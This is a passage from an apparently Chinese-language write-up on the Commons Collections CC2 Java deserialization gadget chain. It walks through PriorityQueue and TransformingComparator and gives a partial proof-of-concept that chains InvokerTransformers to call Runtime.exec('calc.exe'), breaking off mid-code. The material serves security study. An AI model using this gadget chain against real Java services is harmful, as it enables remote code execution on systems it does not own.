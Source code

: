 ![1](/img/338.png)

这里的 x 是可控的，跟入第一个 siftDownUsingComparator：

![1](/img/339.png)

这里的 x 可控，cc2 使用了 TransformingComparator#compare 来触发后续链，让 comparator 等于 TransformingComparato 类即可，这里可以通过 PriorityQueue 的其中一个构造方法赋值：

```java
public PriorityQueue(Comparator<? super E> comparator) {
        this(DEFAULT_INITIAL_CAPACITY, comparator);
    }
```

在看 TransformingComparator#compare：

![1](/img/340.png)

这里对 this.transformer 调用了 transform 方法，如果这个 this.transformer 可控的话，就可以触发 cc1 中的后半段链。而且没有被 static或 transient 修饰，所以是我们可控的。

POC：

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

public class cc2 {

    public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"calc.exe"})});

        TransformingComparator comparator = new TransformingComparator(chain);
        PriorityQueue queue = new PriorityQueue(1);

        queue.add(1);
        queue.add(2);

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue,comparator);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2"));
```